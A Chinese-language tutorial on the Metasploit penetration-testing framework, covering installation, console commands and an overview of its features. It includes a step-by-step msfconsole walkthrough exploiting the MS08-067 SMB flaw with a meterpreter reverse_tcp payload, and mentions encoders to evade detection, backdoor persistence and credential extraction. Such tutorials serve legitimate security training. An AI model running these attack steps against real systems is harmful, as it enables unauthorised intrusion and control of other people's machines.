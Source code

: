 Metasploit Framework（MSF）是一款开源的渗透测试工具，用于开发和执行针对远程目标机器的漏洞利用代码。它包含了大量的针对各种操作系统和软件的已知漏洞的利用代码，也允许用户开发自己的漏洞利用模块。

### 1. 安装 Metasploit

Metasploit 可以在多种操作系统上安装，包括 Windows、Linux 和 macOS。在 Linux 上，你可以通过包管理器安装。例如，在 Debian 或 Ubuntu 上，可以使用以下命令安装：

```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
chmod 755 msfinstall && \
./msfinstall
```

### 2. 初始化数据库

Metasploit 使用 PostgreSQL 数据库来存储和管理数据。安装后，你需要初始化数据库：

```bash
msfdb init
```

### 3. 启动 Metasploit

你可以通过命令行启动 Metasploit 控制台：

```bash
msfconsole
```

### 4. 使用 Metasploit

一旦进入 Metasploit 控制台，你可以开始使用它的功能。这里有一些基本命令：

- `search`：搜索可用的漏洞和利用。
- `use`：选择一个特定的模块来使用（例如，`use exploit/windows/smb/ms08_067_netapi`）。
- `show options`：显示当前模块的配置选项。
- `set`：设置一个选项的值（例如，`set RHOST 192.168.1.100`）。
- `exploit`：执行选定的漏洞利用。

### 5. 实例：利用漏洞

假设你想利用一个名为 `ms08_067_netapi` 的 Windows SMB 服务的漏洞。以下是步骤：

1. 搜索并选择利用代码：

   ```bash
   search ms08_067_netapi
   use exploit/windows/smb/ms08_067_netapi
   ```

2. 配置目标和选项：

   ```bash
   show options
   set RHOST 192.168.1.100
   set RPORT 445
   set payload windows/meterpreter/reverse_tcp
   set LHOST 192.168.1.1
   ```

3. 执行攻击：

   ```bash
   exploit
   ```

如果漏洞利用成功，你将获得目标系统的控制权。

### 6. 使用 Meterpreter

Meterpreter 是 Metasploit 的一个高级有效载荷，提供了丰富的功能，如文件操作、系统命令执行、网络探测等。当你成功利用一个漏洞并且注入 Meterpreter 时，你可以进一步控制系统。

### 7. 更新 Metasploit

为保持漏洞和利用代码的最新状态，定期更新 Metasploit 是很重要的：

```bash
msfupdate
```

Metasploit 是一个功能强大的工具，可以用于安全研究和渗透测试。始终确保在合法和道德的框架内使用 Metasploit，遵守当地的法律和规章制度。

Metasploit Framework (MSF) 是一个全面的渗透测试和安全研究工具，它提供了许多功能来帮助安全专家测试系统的安全性、发现漏洞并确保应用程序的安全。以下是 Metasploit 的一些核心功能：

### 1. 漏洞利用

- **漏洞利用模块**：Metasploit 提供了数千个针对不同操作系统、软件和协议的漏洞利用代码。这些模块可以用于测试系统是否容易受到已知漏洞的攻击。
- **自动化利用工具**：例如，`autopwn` 工具可以自动寻找并利用目标网络上的漏洞。

### 2. 有效载荷生成

- **有效载荷**：Metasploit 允许用户生成各种类型的有效载荷，例如反向或正向 shell，这些可以在利用漏洞后被注入到目标系统中。
- **编码器**：用于生成编码过的有效载荷，以避免目标系统的安全检测。
- **Meterpreter**：一个高级的内存中有效载荷，提供了对目标系统的深度控制功能，如文件管理、网络监控、权限提升和更多。

### 3. 辅助模块

- **扫描器**：Metasploit 提供了各种网络扫描器，用于发现开放的端口和服务，识别操作系统和运行的应用程序版本。
- **嗅探器和嗅探**：用于捕获网络数据，可以帮助揭示网络通信中的敏感信息。
- **拒绝服务（DoS）攻击**：测试网络或服务的稳健性。

### 4. 后渗透测试

- **系统命令执行**：在已经控制的目标系统上执行任意命令。
- **持久性和逃逸检测**：在目标系统上安装后门或者使用技术逃避检测。
- **收集证据**：从目标系统中提取敏感数据，如密码、密钥等。

### 5. 数据库和报告

- **数据库支持**：Metasploit 可以与后端数据库（如 PostgreSQL）集成，自动保存测试结果和数据。
- **报告生成**：生成详细的报告，总结渗透测试的发现和结果。

### 6. 社区与开发

- **插件和扩展**：Metasploit 社区贡献了大量的插件和扩展，这些可以扩展其核心功能。
- **模块开发**：用户可以使用 Ruby 编程语言开发自己的模块，以扩展和自定义 Metasploit 的功能。

Metasploit 提供了一套强大的工具，可以用于广泛的安全测试任务，从前期的侦察和漏洞评估，到后期的漏洞利用和后渗透测试。使用这些工具时，始终需要遵循法律和道德标准，确保在授权的环境中进行测试。